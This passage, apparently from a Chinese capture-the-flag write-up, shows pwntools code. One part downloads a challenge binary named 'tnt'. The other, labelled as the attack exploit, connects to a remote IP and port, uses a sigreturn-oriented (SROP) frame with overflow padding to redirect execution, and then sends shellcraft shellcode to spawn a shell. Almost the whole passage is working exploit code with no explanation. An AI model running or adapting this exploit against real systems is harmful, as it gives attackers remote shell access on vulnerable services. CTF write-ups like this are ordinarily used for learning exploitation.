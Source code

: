 
s.send(b'a' * 15)

 

r = s.recv()

assert r.startswith(b"\x7fELF")

with open("tnt", "wb") as f:

  f.write(r)

 

s.close()

 

攻击exp：

from pwn import *

 

context.arch = "amd64"

context.terminal = ["tmux", "split", "-h"]

 

ip = '114.132.125.59'

port = 30610

 

 

\# s = process("./tnt")

s = remote(ip, port)

\# attach(s)

 

s.recvuntil(b"hacker, TNT!\n")

 

sigframe = SigreturnFrame()

sigframe.rip = 0x4000ee

sigframe.rsp = 0x600800

 

s.send(b'a' * 16 + p64(0x4000ee) + p64(0x400100) + bytes(sigframe))

sleep(1)

 

s.send(b'a' * 15)

sleep(1)

 

s.send(b'a' * 16 + p64(0x600808) + asm(shellcraft.sh()))
